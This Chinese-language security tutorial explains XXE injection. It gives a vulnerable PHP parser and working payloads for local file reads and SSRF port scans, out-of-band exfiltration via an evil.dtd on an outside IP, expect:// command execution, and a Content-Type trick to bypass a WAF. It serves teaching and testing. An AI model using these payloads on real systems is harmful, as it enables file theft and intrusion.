


0x01、XXE原理：
XXE：XML External Entity Injection；即XML外部实体注入（php版本大于5.4.45的默认不解析外部实体）
1、XML：Extensible Markup Language，可扩展标记基础
XML被设计用来结构化、存储以及传输信息，且XML 允许创作者定义自己的标签和自己的文档结构。XML的构建模块结构如下：
XML元素
属性
实体
以一个简单的XXE POC为例：
<?xml version="1.0" encoding="utf-8"?> ###XML声明
<!DOCTYPE test [ ####文档类型定义（DTD）
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ###定义实体名
]>
<test>&xxe;</test> ###文档元素，使用实体名2.DTD（文档类型定义）实体
定义XML文件中有哪些模块，这些模块能包含什么样的内容
DTD可以在XML文档内声明，也可以外部引用
内部声明DTD：
<?xml version="1.0"?><!DOCTYPE note [ 定义此文档是 note 类型的文档。
<!ELEMENT note (to,from,heading,body)> 定义 note 元素有四个元素："to、from、heading,、body"
<!ELEMENT to (#PCDATA)> 定义 to 元素为 "#PCDATA" 类型
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body></note>引用外部DTD：
DTD文件内容：
<?xml version="1.0"?>
<!ELEMENT note (to,from,heading,body)> 定义 note 元素有四个元素："to、from、heading,、body"
<!ELEMENT to (#PCDATA)> 定义 to 元素为 "#PCDATA" 类型
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>引用DTD：
<?xml version="1.0"?>
<!DOCTYPE root SYSTEM "http://xx.xx.xx.xx/evil.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>ELEMENT被过滤的情况下，可以将ELEMENT写入到DTD，外部引用;或外带查询
3、为什么能形成注入？
XML 外部实体可以解析外部文件的特性，使得攻击成为可能；当XML允许引用外部实体，关键字“SYSTEM”会令XML解析器从URI中读取内容，并允许它在XML文档中被替换简单的漏洞代码：
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
# LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
# LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;
#回显信息
echo "You have logged in as user $user";
###漏洞触发点在user元素中
?>0x02、XXE漏洞验证：
如上漏洞代码poc，paylaod.txt：
<creds>
<user> Ed </user>
<pass> mypass </pass>
</creds>tips：读php或html文件时：（由于带有< , >符号会导致解析错误，使用如下paylaod）
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/xx.php">curl验证：
curl -d @payload.txt http://localhost/xml_injectable.php显然这里是有回显的情况，无回显判断，一般还会监听一下我们的80端口是否收到对方的访问信息
0x03、XXE能做什么：
[1]文件读取
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/windows/system.ini" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>[2]SSRF探测端口内网服务
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:81/" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
尝试在XXE漏洞代码中加入：
error_reporting(0);
上边这个判断方法比较依赖于对方开启报错并回显；有回显但没有开启报错的情况下可以根据响应时间/长度，判断该端口是否已被开启（时间差还是很明显的）
[3]Bind XXE （OOB）外带数据（无回显攻击）
[代码中注释掉 echo “You have logged in as user $user”;]
OOB 文件读取
evil.dtd：
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://47.112.182.89/%file;'>">payload.txt(按理说是读取php或者html文件才需要base64，可是我这里不经过base是没有信息返回的)
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=C://windows//system.ini">
<!ENTITY % dtd SYSTEM "http://47.112.182.89/evil.dtd">
%dtd; %all;
]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>OOB 探测内网端口及服务：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "http://127.0.0.1:3389">
<!ENTITY % dtd SYSTEM "http://47.112.182.89/evil.dtd">
%dtd; %all;
]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>0x04、攻击内网
SSRF+内网服务命令执行实现内网攻击
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:81/ssrf.php?cmd=xxxxxxx" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>系统命令执行
(PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上时才可用)
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>0x05、使用递归实体扩展进行DOS攻击
0x06、XXE漏洞挖掘：
如何判断是否存在XML外部实体攻击?那就是寻找那些接受XML作为输入内容的端点，而有些端点可能并不是那么明显，比如一些仅使用JSON去访问服务的客户端，可以通过修改HTTP的请求或修改Content-Type头部字段等方法，然后看应用程序的响应，看程序是否解析了发送的内容，如果解析了，那么就可能存在XXE攻击漏洞
比如这个案例：https://www.freebuf.com/vuls/167087.html ；通过更改contentn type类型值来fuzz目标是否能够正常响应XML值
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
foo=bar等价于：（一般WAF只会拦截application/x-www-form-urlencoded，通过更改为其他类型如text/xml 或 application/xml可绕过 ）
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>1.文件上传XXE（XML、XLSX，DOCX，PPTX，SVG或任何XML MIME类型格式）
2.传输内容XXE （支持XML）
扩展之Json端点上的XXE：
原始JSON
{"search":"name","value":"netspitest"}XML转换(需要添加一个根元素，不然会成为无效的XML文档)
<?xml version="1.0" encoding="UTF-8" ?>
<root>
<search>name</search>
<value>netspitest</value>
</root>以HTB Fulcrum为例：疑似一个API返回一段json信息，但是我们没有能够与API进行交互的方法，只能尝试各种可能（OS[系统命令注入]、sqli、xxe、xpath等）
成功验证XXE
